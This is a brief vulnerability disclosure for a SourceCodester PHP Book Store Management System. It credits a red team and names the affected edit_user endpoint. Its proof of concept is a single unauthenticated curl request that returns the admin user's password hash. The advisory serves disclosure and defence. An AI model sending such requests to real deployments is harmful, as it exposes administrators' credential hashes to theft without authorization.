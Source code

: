 # Unauthenticated Password Hash Disclosure vulnerability

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/user/edit_user/{id}

Proof of Concept: Make a non-authenticated request to retrieve the admin user password hash.

[+] Payload: `curl localhost/bsms_ci/index.php/user/edit_user/1`

![image](link)